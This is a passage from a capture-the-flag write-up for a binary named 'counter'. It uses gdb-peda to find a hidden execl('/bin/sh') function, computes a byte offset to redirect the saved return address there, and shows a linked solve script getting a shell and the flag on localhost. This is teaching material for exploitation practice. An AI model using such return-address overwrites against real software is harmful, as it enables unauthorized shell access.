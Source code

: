 ![](./execl2.png)

Since this function is not called in the usual control flow, we redirect `rip` to the beginning of this unknown function calling `execl` to see the arguments for `execl`:

```bash
gdb-peda$ set $rip = 0x004006e0
gdb-peda$ b *0x4006f2
Breakpoint 2 at 0x4006f2
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
[...]
=> 0x4006f2:    call   0x4005c0 <execl@plt>
   0x4006f7:    xor    edi,edi
   0x4006f9:    call   0x4005b0 <exit@plt>
   0x4006fe:    xchg   ax,ax
   0x400700:    sub    rsp,0x8
Guessed arguments:
arg[0]: 0x4008d4 --> 0x68732f6e69622f ('/bin/sh')
arg[1]: 0x4008d9 --> 0x7331313525006873 ('sh')
arg[2]: 0x0 
[...]
```

We see that the call of `execl` is `execl("/bin/sh","sh",NULL)`, which is exactly what we need to have a shell!

Our goal is to change `rip` using our input to the address `0x004006e0` to spawn a shell after the function calling `fscanf` returns.

We just have to calculate the offset difference between the address of the saved `rip` in the binary and `0x004006e0`: `0x004006e0-0x4005d9=0x0107` - so we have to increment the lowest byte of our `rip` address on the stack with `1` and the second lowest byte with `7`.

[This python script](./solve.py) does the job:

```bash
$ p solve.py 
[+] Opening connection to localhost on port 6666: Done
[*] Switching to interactive mode

$ $ ls -l
total 12
-rwxrw-r-- 1 vbox vbox 5384 Jan 24 09:41 counter
-rw-rw-r-- 1 vbox vbox   32 Jan 24 11:53 flag.txt
$ $ cat flag.txt
hxp{0verflow1ng_ch4c4cters_w1n}
$ $ exit
[*] Got EOF while reading in interactive
$ ^D
[*] Closed connection to localhost port 6666
```
